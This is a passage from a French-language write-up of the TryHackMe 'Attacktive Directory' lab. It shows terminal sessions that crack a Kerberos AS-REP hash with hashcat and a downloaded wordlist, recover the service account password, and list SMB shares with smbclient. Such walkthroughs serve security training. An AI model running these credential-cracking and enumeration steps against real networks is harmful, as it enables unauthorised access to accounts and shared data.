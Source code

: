 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:32df868fa3665c3b12e701dfce3bfd2d$da73c2f757e02273fc2448d7f216f47700f72168d7077e35f99ad8ee0633ddeaed6ae20111da993b5897518e60f1aeb83e8cbdb5656ab63d921efd6c33b814f3e393784008bb5ef1b989a1702fc2d716865a48684ebac274d684827f13dc203e669e74f7aacc4c6d5313f42c78a33670b2d4620b3e18cb4222a414bcfa1ce69f62ecbc35fc3e0a1fe3397d8fd856d38f239467a8b2f3aba6e80270a2a87236744fb9ca207c19f349a655e917dba1150c418d841d26b8c7f45979aa345f46c5d6aea8e6d2db8ac9ab9d2055fd962ed1f2ea73a04eec6a524036be30ca22a7bc6ac20e0bd1e7f502f5f8fe965109d425bf99a6' > hash

tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt -nv
2021-08-25 14:19:54 URL:https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt [569236/569236] -> "passwordlist.txt" [1]   

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 18200 -a 0 hash ./passwordlist.txt  --quiet
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:32df868fa3665c3b12e701dfce3bfd2d$da73c2f757e02273fc2448d7f216f47700f72168d7077e35f99ad8ee0633ddeaed6ae20111da993b5897518e60f1aeb83e8cbdb5656ab63d921efd6c33b814f3e393784008bb5ef1b989a1702fc2d716865a48684ebac274d684827f13dc203e669e74f7aacc4c6d5313f42c78a33670b2d4620b3e18cb4222a414bcfa1ce69f62ecbc35fc3e0a1fe3397d8fd856d38f239467a8b2f3aba6e80270a2a87236744fb9ca207c19f349a655e917dba1150c418d841d26b8c7f45979aa345f46c5d6aea8e6d2db8ac9ab9d2055fd962ed1f2ea73a04eec6a524036be30ca22a7bc6ac20e0bd1e7f502f5f8fe965109d425bf99a6:management2005
```

On prépare le hash. 
On télécharge la liste de mots de passes.   
On brute force le hash.   

La réponse est : management2005    

## Task 6 Enumeration Back to the Basics ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L attacktivedirect.thm -U 'svc-admin'
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Avec le nom et le mot de passe on peut lister les partages.   

**What utility can we use to map remote SMB shares?**

On utilise : smbclient    

**Which option will list shares?**

L'option -L permet de lister les partages.   
